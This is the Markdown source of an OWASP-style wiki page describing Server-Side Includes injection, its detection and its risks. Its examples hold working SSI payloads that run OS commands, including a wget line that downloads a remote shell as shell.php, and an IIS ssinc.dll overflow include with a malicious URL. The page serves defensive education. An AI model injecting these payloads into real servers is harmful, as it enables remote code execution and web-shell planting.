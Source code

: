 ```yaml
---

layout: col-sidebar
title: Server-Side Includes (SSI) Injection
author: 
contributors: 
permalink: /attacks/Server-Side_Includes_(SSI)_Injection
tags: attack, Server-Side Includes (SSI) Injection
auto-migrated: 1

---
```


{% include writers.html %}

## Description

SSIs are directives present on Web applications used to feed an HTML
page with dynamic contents. They are similar to CGIs, except that SSIs
are used to execute some actions before the current page is loaded or
while the page is being visualized. In order to do so, the web server
analyzes SSI before supplying the page to the user.

The Server-Side Includes attack allows the exploitation of a web
application by injecting scripts in HTML pages or executing arbitrary
codes remotely. It can be exploited through manipulation of SSI in use
in the application or force its use through user input fields.

It is possible to check if the application is properly validating input
fields data by inserting characters that are used in SSI directives,
like:

`< ! # = / . " - > and [a-zA-Z0-9] `

Another way to discover if the application is vulnerable is to verify
the presence of pages with extension .stm, .shtm and .shtml. However,
the lack of these type of pages does not mean that the application is
protected against SSI attacks.

In any case, the attack will be successful only if the web server
permits SSI execution without proper validation. This can lead to access
and manipulation of file system and process under the permission of the
web server process owner.

The attacker can access sensitive information, such as password files,
and execute shell commands. The SSI directives are injected in input
fields and they are sent to the web server. The web server parses and
executes the directives before supplying the page. Then, the attack
result will be viewable the next time that the page is loaded for the
user's browser.

## Risk Factors

TBD

## Examples

### Example 1

The commands used to inject SSI vary according to the server operational
system in use. The following commands represent the syntax that should
be used to execute OS commands.

**Linux:**

List files of directory:

`<!--#exec cmd="ls" -->`

Access directories:

`<!--#exec cmd="cd /root/dir/">`

Execution script:

`<!--#exec cmd="wget http://mysite.com/shell.txt | rename shell.txt shell.php" -->`

**Windows:**

List files of directory:

`<!--#exec cmd="dir" -->`

Access directories:

`<!--#exec cmd="cd C:\admin\dir">`

### Example 2

Other SSI examples that can be used to access and set server
information:

To change the error message output:

`<!--#config errmsg="File not found, informs users and password"-->`

To show current document filename:

`<!--#echo var="DOCUMENT_NAME" -->`

To show virtual path and filename:

`<!--#echo var="DOCUMENT_URI" -->`

Using the “config” command and “timefmt” parameter, it is possible to
control the date and time output format:

`<!--#config timefmt="A %B %d %Y %r"-->`

Using the “fsize” command, it is possible to print the size of selected
file:

`<!--#fsize file="ssi.shtml" -->`

### Example 3

An old vulnerability in the IIS versions 4.0 and 5.0 allows an attacker
to obtain system privileges through a buffer overflow failure in a
dynamic link library (ssinc.dll). The “ssinc.dll” is used to interpreter
process Server-Side Includes.
[CVE 2001-0506](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CAN-2001-0506).

By creating a malicious page containing the SSI code bellow and forcing
the application to load this page ([Path
Traversal](Path_Traversal "wikilink") attack), it’s possible to perform
this attack:

ssi_over.shtml

`<!--#include file=”UUUUUUUU...UU”-->`

PS: The number of “U” needs to be longer than 2049.

Forcing application to load the ssi_over.shtml page:

Non-malicious URL:

`www.vulnerablesite.org/index.asp?page=news.asp`

Malicious URL:

`www.vulnerablesite.org/index.asp?page=www.malicioussite.com/ssi_over.shtml`

If the IIS return a blank page it indicates that an overflow has
occurred. In this case, the attacker might manipulate the procedure flow
and executes arbitrary code.

## Related [Threat Agents](Threat_Agents "wikilink")

  - [:Category:Command
    Execution](:Category:Command_Execution "wikilink")

## Related [Attacks](https://owasp.org/www-community/attacks/)

  - [Code Injection](Code_Injection "wikilink")

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## Related [Controls](https://owasp.org/www-community/controls/)

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## References

  - <http://www.comptechdoc.org/independent/web/cgi/ssimanual/ssiexamples.html>
    - SSI Examples

\[\[Category:FIXME|link not working

  - <http://www.students.mines.edu/examples/> - CGI and SSI Examples

\]\]

[Category:OWASP ASDR Project](Category:OWASP_ASDR_Project "wikilink")
[need content here](Category:FIXME "wikilink")
[Category:Injection](https://owasp.org/www-community/Injection_Flaws)
[Category:Attack](Category:Attack "wikilink")